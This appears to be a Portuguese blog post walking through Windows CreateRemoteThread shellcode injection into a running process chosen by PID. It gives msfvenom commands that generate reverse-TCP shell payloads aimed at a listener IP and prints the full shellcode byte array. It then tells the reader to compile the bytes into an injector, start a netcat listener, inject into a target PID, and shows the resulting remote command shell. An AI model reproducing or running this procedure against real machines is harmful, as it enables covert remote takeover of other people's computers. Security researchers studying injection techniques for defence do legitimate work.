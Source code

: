 ```yaml
---
title: Injeção de Código - Injection Remote Process PID
category: post
---
```


>link do código usado : 
https://github.com/d0x75/Injector-RemoteProcess.git


**Windows CreateRemoteThread Shellcode Injection and Execution in Remote Process**

>Esse também é um o clássico Shellcode Injection que no caso é feito em outro módulo/processo que está em execução no computador alvo. O PID do processo que injetaremos o código é passado como argumento ao executarmos o shellcode.

>Quando o shellcode for executado com sucesso, ganhamos acesso na máquina alvo; Conforme PoC a seguir:


### Step 1 

- Gerar os bytes do shellcode para Windows x86, apontando para o IP do computador que vai ganhar o acesso.



```ruby
msfconsole
msfvenom -p windows/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Ou Gerar os bytes do shellcode para Windows x64, apontando para o IP do computador que vai ganhar o acesso.


```ruby
msfconsole
msfvenom -p windows/x64/shell_reverse_tcp
LHOST=192.168.10.113 LPORT=1234 -f c -b \x00\x0a\x0d
```

- Após rodar o comando acima com sucesso, teremos os bytes do shellcode na tela. Exemplo :

```c++
		unsigned char buf[] =
		"\x33\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
		"\xfb\x25\xeb\xf6\x83\xee\xfc\xe2\xf4\x07\xcd\x69\xf6\xfb\x25"
		"\x8b\x7f\x1e\x14\x2b\x92\x70\x75\xdb\x7d\xa9\x29\x60\xa4\xef"
		"\xae\x99\xde\xf4\x92\xa1\xd0\xca\xda\x47\xca\x9a\x59\xe9\xda"
		"\xdb\xe4\x24\xfb\xfa\xe2\x09\x04\xa9\x72\x60\xa4\xeb\xae\xa1"
		"\xca\x70\x69\xfa\x8e\x18\x6d\xea\x27\xaa\xae\xb2\xd6\xfa\xf6"
		"\x60\xbf\xe3\xc6\xd1\xbf\x70\x11\x60\xf7\x2d\x14\x14\x5a\x3a"
		"\xea\xe6\xf7\x3c\x1d\x0b\x83\x0d\x26\x96\x0e\xc0\x58\xcf\x83"
		"\x1f\x7d\x60\xae\xdf\x24\x38\x90\x70\x29\xa0\x7d\xa3\x39\xea"
		"\x25\x70\x21\x60\xf7\x2b\xac\xaf\xd2\xdf\x7e\xb0\x97\xa2\x7f"
		"\xba\x09\x1b\x7a\xb4\xac\x70\x37\x00\x7b\xa6\x4d\xd8\xc4\xfb"
		"\x25\x83\x81\x88\x17\xb4\xa2\x93\x69\x9c\xd0\xfc\xda\x3e\x4e"
		"\x6b\x24\xeb\xf6\xd2\xe1\xbf\xa6\x93\x0c\x6b\x9d\xfb\xda\x3e"
		"\xa6\xab\x75\xbb\xb6\xab\x65\xbb\x9e\x11\x2a\x34\x16\x04\xf0"
		"\x7c\x9c\xfe\x4d\x2b\x5e\xf1\x54\x83\xf4\xfb\x21\x39\x7f\x1d"
		"\x4f\xfb\xa0\xac\x4d\x72\x53\x8f\x44\x14\x23\x7e\xe5\x9f\xfa"
		"\x04\x6b\xe3\x83\x17\x4d\x1b\x43\x59\x73\x14\x23\x93\x46\x86"
		"\x92\xfb\xac\x08\xa1\xac\x72\xda\x00\x91\x37\xb2\xa0\x19\xd8"
		"\x8d\x31\xbf\x01\xd7\xf7\xfa\xa8\xaf\xd2\xeb\xe3\xeb\xb2\xaf"
		"\x75\xbd\xa0\xad\x63\xbd\xb8\xad\x73\xb8\xa0\x93\x5c\x27\xc9"
		"\x7d\xda\x3e\x7f\x1b\x6b\xbd\xb0\x04\x15\x83\xfe\x7c\x38\x8b"
		"\x09\x2e\x9e\x1b\x43\x59\x73\x83\x50\x6e\x98\x76\x09\x2e\x19"
		"\xed\x8a\xf1\xa5\x10\x16\x8e\x20\x50\xb1\xe8\x57\x84\x9c\xfb"
		"\x76\x14\x23";
```


### Step 2

- Abrir o código do link mencionado no inicio, que tem o
código responsável por executar os bytes gerados acima.


```text
injectremotePID.cpp
```

- Depois de copiar os bytes gerados pelo msfvenom no Step 1, devemos colar esses bytes no conteúdo da variável 
_unsigned char shellcode[] = ""_ do código fonte , e depois compilar-lo.

- Ao compilar o software com sucesso teremos os executáveis prontos para uso.


```text
injectremotePID.exe
```

### Step 3

- Anotar o PID do processo/módulo em que iremos injetar o shellcode.


```text
para vermos o PID podemos usar o "ProcessHacker" ou "procexp"
```

- Abrir a porta que colocamos como argumento no msfvenom para gerar o shellcode, no computador que tem o IP que também colocamos como argumento no msfvenom para gerar o shellcode :


```cmd
nc -vlp 1234
```

- Executar o binário que injeta o shellcode passando o PID anotado acima como argumento para o programa injetor :


```cmd
injectremotePID.exe 2004
```

- Feito isso, já devemos ganhar o acesso no alvo.


```cmd
listening on [any] 1234 ...
192.168.10.109: inverse host lookup failed: Host name lookup failure
connect to [192.168.10.113] from (UNKNOWN) [192.168.10.109] 49173
Microsoft Windows [vers�o 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Todos os direitos reservados.

C:\Users\VBOX_7\Desktop>
```
